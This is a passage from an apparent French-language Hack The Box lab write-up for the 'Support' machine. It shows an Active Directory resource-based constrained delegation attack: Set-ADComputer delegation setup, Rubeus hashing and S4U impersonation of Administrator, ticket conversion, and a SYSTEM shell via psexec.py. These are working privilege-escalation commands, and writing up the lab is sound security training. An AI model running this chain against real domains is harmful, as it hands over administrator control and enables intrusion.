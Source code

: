 ### Configurer la délégation

```powershell
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$
```

### S4U Attack avec Rubeus

Hash RC4 :

```powershell
upload Rubeus.exe
.\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb
```

Exécution :

```powershell
.\Rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-ticket-alt mr-2 text-green-500"></i>
        Ticket Kerberos pour Administrator généré et injecté !
    </p>
</div>


## 👑 Phase 10 — Shell SYSTEM

Conversion et utilisation du ticket :

```bash
base64 -d ticket.kirbi.b64 > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-xl">
        <i class="fas fa-crown mr-2 text-amber-500"></i>
        NT AUTHORITY\SYSTEM obtenu !
    </p>
</div>

Flag root :

```
C:\Users\Administrator\Desktop\root.txt
```

<div class="bg-gradient-to-r from-amber-500/10 to-yellow-500/10 p-6 rounded-xl border-l-4 border-amber-500 my-4">
    <div class="flex items-center gap-4">
        <div class="text-5xl text-amber-500">
            <i class="fas fa-trophy"></i>
        </div>
        <div class="flex-1">
            <h4 class="text-2xl font-bold text-amber-600 dark:text-amber-400 mb-2">Machine Pwned!</h4>
            <p class="text-gray-700 dark:text-gray-300">
                <i class="fas fa-flag text-green-500 mr-2"></i><strong>User flag :</strong> C:\Users\Support\Desktop\user.txt<br>
                <i class="fas fa-flag text-red-500 mr-2"></i><strong>Root flag :</strong> C:\Users\Administrator\Desktop\root.txt
            </p>
        </div>
    </div>
</div>